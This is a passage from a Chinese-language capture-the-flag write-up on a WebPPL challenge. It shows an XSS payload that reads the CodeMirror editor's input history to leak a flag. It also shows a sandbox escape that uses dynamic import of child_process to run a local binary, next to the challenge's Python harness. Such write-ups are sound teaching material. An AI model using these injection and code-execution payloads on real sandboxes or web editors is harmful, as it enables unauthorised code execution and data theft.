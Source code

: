 也就是首先执行输出 flag 的 WebPPL，然后再执行我们提交的代码。查阅 `console` 会得知无法直接获取它的历史输出，而且我们的代码执行在 flag 输出之后，也不能首先修改 `console` 对象，所以我们需要另想办法获取历史输出。

观察 *控制台* 直接执行 `console.log(FLAG1)` 和 *通过 XSS Bot 提交 WebPPL 脚本* 执行 `console.log(FLAG1)`，区别在于：

- WebPPL 环境可能保存了脚本执行的信息；
- 编辑器可能保存了历史输入。

两种思路都可以试一试。通过审查元素得知编辑器是 CodeMirror。如果搜索不到 CodeMirror 怎么获取历史记录，也可以先搜索怎么获取 CodeMirror 的实例，搜索关键词 *CodeMirror get instance* 很容易找到：

```JavaScript
document.querySelector('.CodeMirror').CodeMirror
```

然后在提供的 WebPPL 网站内把玩一番 CodeMirror 对象，自然发现有 `getHistory` 方法。所以最后的 payload：


```JavaScript
_top.eval("_top.document.title = _top.JSON.stringify(_top.document.querySelector('.CodeMirror').CodeMirror.getHistory())")
```

### Flag2

第二问：

```Python
def challenge_2(code):
    if not Path('/flag2').is_file():
        print('Cannot find flag file!')

    with open('/tmp/code.wppl', 'w', encoding='utf-8') as f:
        f.write(code)
        
    print('\nRunning your code...')
    subprocess.run('bash ./driver.sh', shell=True)
    
    out_path = Path('/tmp/output.txt')
    if out_path.is_file():
        print('\nThe output is:')
        print(out_path.read_text())
    else:
        print('\nOutput does not exist!')
```

翻阅 driver.sh 可以发现我们只需要设法执行 /tmp/getflag 即可把 flag 写入到 /tmp/output.txt。

通常思路是 `require('child_process').exec`，但是这里的环境没有。不过好在 WebPPL 装起来并不麻烦，可以本地把玩一下发现 `import` 还是可以用的。payload：

```JavaScript
_top.eval("import('child_process').then((m) => {m.exec('/tmp/getflag', (error, stdout, stderr) => {console.log(stdout)})})")
```

这题第二问需要一点 Node.js 的基础，懂了就比第一问简单，不懂的话就比第一问难了。

## ICS笑传之抄抄榜
